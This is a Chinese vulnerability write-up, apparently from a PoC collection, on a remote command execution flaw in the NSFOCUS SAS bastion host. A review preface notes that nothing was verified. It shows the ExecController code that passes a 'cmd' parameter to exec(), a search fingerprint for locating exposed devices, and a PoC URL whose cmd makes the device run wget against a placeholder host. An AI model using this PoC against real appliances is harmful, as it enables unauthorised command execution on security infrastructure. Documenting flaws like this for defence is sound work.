




# 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：NSFOCUS SAS堡垒机
- 本文讨论：webconf/Exec/index cmd直接exec
- 版本、权限与配置前提：未列版本/认证；基类/路由鉴权未展示
- 资料类型：SAS源码RCE摘要；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 控制器exec危险点明确但不能仅凭局部函数断言前台可达
- 无官方修复；验证出网依赖截图，返回WEBSVC OK只说明退出码

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 角色/路由授权及固件版本待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面



漏洞存在于文件 ExecController.php 文件中



```
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

验证POC

```
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```






---

> 来源：Threekiii/Awesome-POC
